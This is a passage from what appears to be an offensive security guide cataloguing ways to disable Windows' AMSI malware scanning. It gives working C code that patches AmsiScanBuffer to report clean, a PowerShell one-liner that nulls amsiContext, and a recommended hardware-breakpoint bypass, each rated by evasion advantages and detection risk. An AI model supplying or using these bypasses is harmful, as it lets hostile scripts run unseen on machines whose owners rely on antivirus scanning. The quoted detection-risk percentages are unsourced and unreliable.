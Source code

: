 **Code Pattern**:
```c
BOOL PatchAmsiScanBuffer() {
    HMODULE hAmsi = LoadLibraryA("amsi.dll");
    PVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

    // Overwrite with: xor eax, eax; ret (returns AMSI_RESULT_CLEAN)
    BYTE patch[] = { 0x31, 0xC0, 0xC3 };

    DWORD oldProtect;
    VirtualProtect(pAmsiScanBuffer, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(pAmsiScanBuffer, patch, sizeof(patch));
    VirtualProtect(pAmsiScanBuffer, sizeof(patch), oldProtect, &oldProtect);

    return TRUE;
}
```

### Pattern 2: AmsiContext Corruption

**Concept**: Corrupt the amsiContext structure to make AMSI fail initialization.

**Advantages**:
- No memory patching of AMSI.dll
- Lower behavioral signature than patching

**Disadvantages**:
- Still modifies AMSI-related memory
- Can fail on some Windows versions
- Detection risk: 35-40%

**Code Pattern**:
```powershell
# PowerShell variant
$ref = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$field = $ref.GetField('amsiContext', 'NonPublic,Static')
$field.SetValue($null, [IntPtr]0)
```

### Pattern 3: VEH² Hardware Breakpoint Bypass ⭐ RECOMMENDED

**Concept**: Register Vectored Exception Handler (VEH) and set hardware breakpoint on AmsiScanBuffer. When AMSI scan occurs, VEH intercepts the call and returns AMSI_RESULT_CLEAN without executing the actual scan.

**Critical Innovation**: **Zero memory patching** - AMSI.dll bytes remain untouched, defeating integrity checks on Windows 11 24H2.

**Advantages**:
- **Works on Windows 11 24H2** where memory patching fails
- No modification of AMSI.dll (bypasses integrity checks)
- Hardware breakpoints are transparent to memory scanners
- Uses legitimate Windows debugging APIs
- Detection risk: 20-25% (vs 50%+ for patching)
